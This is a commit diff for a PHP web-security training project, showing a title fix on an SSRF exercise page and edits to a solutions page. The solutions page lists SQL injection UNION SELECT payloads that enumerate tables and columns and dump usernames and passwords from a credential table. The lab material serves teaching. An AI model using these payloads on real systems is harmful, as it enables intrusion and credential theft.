

Before and after one commit to MrTriad/progettoSWM, a PHP site: page /solutions.html in a window 1280 px wide. Shown: the top 630 px of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
minor fixes

```diff
--- a/php/progettoSWM/SSRF/SSRF1/SSRF1.php
+++ b/php/progettoSWM/SSRF/SSRF1/SSRF1.php
@@ -26,7 +26,7 @@ function curl_get($url){
 <!DOCTYPE html>
 <html lang="it">
 <head>
-  <title>XSS 1</title>
+  <title>SSRF 1</title>
   <meta charset="utf-8">
   <meta name="viewport" content="width=device-width, initial-scale=1">
   <link rel="stylesheet" href="../../css/bootstrap4-neon-glow.min.css">
--- a/php/progettoSWM/solutions.html
+++ b/php/progettoSWM/solutions.html
@@ -14,9 +14,11 @@
 
     <h3>exercise SQLi2</h3>
     <h4>Find table names</h4>
-    <p>AnnoyingWorm' UNION ALL SELECT NULL, NULL, NULL, TABLE_NAME FROM information_schema.TABLES-- </p>
+    <p>' UNION ALL SELECT NULL, NULL, NULL, TABLE_NAME FROM information_schema.TABLES-- </p>
+    <h4>Find fields</h4>
+    <p>' UNION ALL SELECT NULL, NULL, NULL, column_name FROM information_schema.columns WHERE table_name="SQLi2_Credential" -- </p>
     <h4>Find credentials</h4>
-    <p>AnnoyingWorm' UNION ALL SELECT NULL, Username, NULL, Password FROM SQLi2_Credential-- </p>
+    <p>' UNION ALL SELECT NULL, Username, NULL, Password FROM SQLi2_Credential-- </p>
 
 
     <h4>SQLi3</h4>
```
